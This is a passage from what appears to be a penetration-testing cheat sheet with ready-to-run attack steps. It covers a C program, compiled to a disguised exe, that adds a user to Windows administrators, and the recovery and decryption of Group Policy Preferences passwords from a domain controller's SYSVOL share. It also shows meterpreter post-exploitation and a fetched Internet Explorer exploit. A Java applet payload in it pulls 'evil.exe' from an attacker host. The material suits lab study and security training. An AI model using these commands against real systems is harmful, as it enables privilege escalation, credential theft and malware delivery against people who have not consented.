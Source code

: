 -   Compile a custom add user command in windows using C

             root@kali:~\# cat useradd.c
             #include <stdlib.h> /* system, NULL, EXIT_FAILURE */
             int main ()
             {
             int i;
             i=system ("net localgroup administrators low /add");
             return 0;
             }

             i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

-   Group Policy Preferences (GPP)
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share

        `net use z:\\dc01\SYSVOL`

    -   Find the GPP file: Groups.xml

        `dir /s Groups.xml`

    -   Review the contents for passwords

        `type Groups.xml`

    -   Decrypt using GPP Decrypt

        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`

-   Find and display the proof.txt or flag.txt - get the loot!

    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`


Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>
        service apache2 start

    -   JAVA Signed Jar client side attack
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html
        User must hit run on the popup that occurs.
